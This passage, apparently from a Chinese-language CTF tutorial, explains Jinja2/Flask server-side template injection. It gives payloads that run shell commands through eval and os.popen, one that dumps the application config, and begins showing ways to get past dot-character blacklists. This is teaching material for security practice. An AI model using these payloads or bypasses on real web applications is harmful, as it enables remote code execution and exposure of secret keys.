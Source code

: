 构造ssti的payload

```go
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
```

- `get_flashed_messages`

查询配置信息

```go
{{get_flashed_messages.__globals__['current_app'].config}}
```

构造ssti的payload

```go
{{get_flashed_messages.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()")}}
```

### 绕过黑名单

CTF中一般考的就是怎么绕过SSTI，我们学会如何去构造payload之后，还要学习如何去绕过一些过滤，然后下面由于环境的不同，payload中类的位置也是就那个数字可能会和文章中不一样，需要自己动手测一下

#### 过滤了点

过滤了`.`

在python中，可用以下表示法可用于访问对象的属性

```go
{{().__class__}}



{{()["__class__"]}}



{{()|attr("__class__")}}



{{getattr('',"__class__")}}
```

也就是说我们可以通过`[]`，`attr()`，`getattr()`来绕过点

- 使用`[]`绕过

使用访问字典的方式来访问函数或者类等，下面两行是等价的

```go
{{().__class__}}



{{()['__class__']}}
```
